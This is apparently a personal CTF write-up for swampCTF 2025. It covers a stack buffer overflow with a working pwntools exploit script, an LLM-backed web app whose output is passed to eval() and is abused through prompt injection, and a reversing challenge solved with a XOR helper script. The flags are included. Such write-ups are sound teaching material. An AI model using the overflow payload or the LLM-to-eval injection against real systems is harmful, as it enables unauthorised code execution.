 
# Challenges
- <Link href="#beginner-pwn-2">Beginner Pwn 2 (Pwn)</Link>
- <Link href="#maybe-happy-ending-gpt">Maybe Happy Ending GPT (Web)</Link>
- <Link href="#you-shall-not-passsss">You Shall Not Passsss (Rev)</Link>

I love swampCTF. swampCTF 2024 was one of the first CTF's ive played and the first one where I felt immense satisfaction solving a challenge. A lot of high quality challenges all around, though it seems like this years was easier than last years.

<h2 id="beginner-pwn-2">Beginner Pwn 2</h2>
*Solved with Bentley*
### Challenge Resources
![beginnerpwn2](/ctfs/swampctf2025/beginnerpwn.webp)
[Download](https://ctf.swampctf.com/files/ba73e4e10e45fd89e46dfc3842c14cbd/binary?token=eyJ1c2VyX2lkIjoxOTEsInRlYW1faWQiOjEwOCwiZmlsZV9pZCI6MjZ9.Z-oS_g.KjaTKth3XM4R_StKJgNkf2RbHQ8)
### Solution
1. We take a look at `checksec`
![checksec](/ctfs/swampctf2025/checksec.webp)
This is good. We have no PIE and no canary. Straightforwards
2. Now, we try to find the return address
![checksec](/ctfs/swampctf2025/retaddr.webp)
Turns out the buffer size is 18, so anything afterwards is now the return statement.
3. We get the correct script as:
```
import pwn

r = pwn.remote("chals.swampctf.com", 40001)
win_addr = 0x401186

payload = b"A" * 18
payload += pwn.p64(win_addr)
r.sendline(payload)
print(r.recvall().decode('latin-1'))  # Print flag
r.close()
```

<h2 id="maybe-happy-ending-gpt">Maybe Happy Ending GPT</h2>

### Challenge Resources
![maybehappyending](/ctfs/swampctf2025/maybehappy.webp)
[Web URL](http://chals.swampctf.com:50207/)
[Download](https://ctf.swampctf.com/files/68f09c26e413cc219c7711c6e945d8fc/MaybeHappyEndingGPT.zip?token=eyJ1c2VyX2lkIjoxOTEsInRlYW1faWQiOjEwOCwiZmlsZV9pZCI6Mzd9.Z-oTmg.qLXXXrIORiDeBtnveM7ITCvmXr0)
### Solution
1. Search for references of `flag`
![references](/ctfs/swampctf2025/references.webp)
2. We see that there is a hint here, and that it is using eval()
![eval](/ctfs/swampctf2025/eval.webp)
3. It is reading the LLM's response and then evaluating it and returning the eval's output as a response
4. ![ls](/ctfs/swampctf2025/ls.webp)
5.![gptflag](/ctfs/swampctf2025/gptflag.webp)

<h2 id="you-shall-not-passsss">You Shall Not Passsss</h2>
### Challenge Resources
![youshalnotpass](/ctfs/swampctf2025/youshalnotpass.webp)
[Download](https://ctf.swampctf.com/files/10ed11c19ea792d32db42fe63d217274/chal?token=eyJ1c2VyX2lkIjoxOTEsInRlYW1faWQiOjEwOCwiZmlsZV9pZCI6OX0.Z-oU4Q.PAkwNhds6tYYtyuL1FBr838q7Fw)
### Solution
1. We first decompile with binary ninja
2. In the main function, We allocate 3 pointers and 1 variable, change a variable until its non-zero, do a lot more assignments to variables from constants loaded within memory, and perform a hashing function for each of them (there are like 20 of thes variables). Another loop of a pointer, and then we run the 2nd function
	1. ![libcmain](/ctfs/swampctf2025/libcmain.webp)
	2. ![3alloca](/ctfs/swampctf2025/3alloca.webp)
	3. ![nonzero](/ctfs/swampctf2025/nonzero.webp)
	4. ![lastassgn](/ctfs/swampctf2025/lastassgn.webp)
3. The second function is a lot more interesting. It constructs a list, with the first element as a function. Then, it calls that function.
![2ndfunc](/ctfs/swampctf2025/2ndfunc.webp)

##### Debugging
So, the function data is dynamicaly loaded. We debug to see whats going on.
- Enter libc_start_main
- Continue until we enter main which is here:
![gdb1](/ctfs/swampctf2025/gdb1.webp)
- Step into that call, then keep moving until we call rax. Our entry is at `0x5555555550c0`. This is what it looks like:
![gdb2](/ctfs/swampctf2025/gdb2.webp)
- It iterates through a loop, and it runs in it for __ times.
- Afterwards, it gradually pushes the word `Incorrect\n` onto the memory locations
![gdb3](/ctfs/swampctf2025/gdb3.webp)
- Then, it writes `Correct!\n` to the memory space afterwards
![gdb4](/ctfs/swampctf2025/gdb4.webp)
- Afterwards, save some data to the heap
![gdb5](/ctfs/swampctf2025/gdb5.webp)
- Enter a loop that repeats 181 times,
- Write the data, then jump into the next call. 
![gdb6](/ctfs/swampctf2025/gdb6.webp)
- Then, it tries to mmap, and it will jump out if it fails.
- It will then move some string contents into registers
![gdb6](/ctfs/swampctf2025/gdb7.webp)
- Moves some more things around
- Moves in some constants, then calls rbp 
![gdb6](/ctfs/swampctf2025/gdb8.webp)
- Inside rbp: string constants and data is being loaded
![gdb6](/ctfs/swampctf2025/gdb9.webp)
- Enters a loop that runs 38 times
![gdb6](/ctfs/swampctf2025/gdb10.webp)
- It should have a conditional move that occurs when dil is equal to r8b
![gdb6](/ctfs/swampctf2025/gdb11.webp)
**This is the key.**
- Initially, before the start of the loop, rbx is `Correct!\n`
![gdb6](/ctfs/swampctf2025/gdb12.webp)
- After the loop, if esi is 0, then the value at r14 (which is `Incorrect`) is moved into rbx, then it prints rbx.
![gdb6](/ctfs/swampctf2025/gdb13.webp)
	- ![gdb6](/ctfs/swampctf2025/gdb14.webp)
	- ![gdb6](/ctfs/swampctf2025/gdb15.webp)
	- If this comparison is not equal, then we will have to cmov
	- so, this comparison must be equal all 36 times
- Setting the first character to `s` passes the first check, so we know that it is decoding now character by character. Also, changing characters does not modify the `r8b` values, so these are constant.
- Now, we know that it loads the character into `dil`, xors it with `al` and compares it to be `r8b`. So, we should be able to find the character from the expected `r8b` values and `al` values.
- I have a script to help me calculate the next character, since I did not want to reverse engineer the encryption process
```python
def find_a(b_hex, c_hex):
  b_int = int(b_hex, 16)  # Convert b from hex to integer
  c_int = int(c_hex, 16)  # Convert c from hex to integer
  a_int = c_int ^ b_int  # Perform the XOR operation
  a_hex = hex(a_int)  # Convert a back to hexadecimal
  return a_hex

b_decimal = int(input('b_decimal: '))
b_hex = hex(b_decimal & 0xFF) #ensure 8 bit representation.
c_hex = input("c_hex: ")

result_hex = int(find_a(b_hex, c_hex), 16)
print(f"a = {result_hex}, chr(a) = {chr(result_hex)}")
```
Kept on running the script until i got the flag
<video width="600" height="600" controls>
  <source src="/ctfs/swampctf2025/flaginputs.mp4" type="video/mp4"/>
</video>
`swampCTF{531F_L0AD1NG_T0TALLY_RUL3Z}`